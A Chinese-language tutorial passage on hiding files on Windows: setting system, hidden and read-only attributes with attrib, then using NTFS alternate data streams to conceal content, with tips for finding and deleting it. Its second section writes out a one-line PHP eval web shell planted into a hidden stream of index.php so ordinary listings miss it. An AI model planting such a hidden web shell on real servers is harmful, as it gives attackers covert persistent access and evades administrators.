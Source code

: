 如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r  D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：

打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。

![](./image/privilege-1-3.png)

**2、利用ADS隐藏文件内容**

​	在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 　

```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。　

```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```

**3、驱动级文件隐藏**

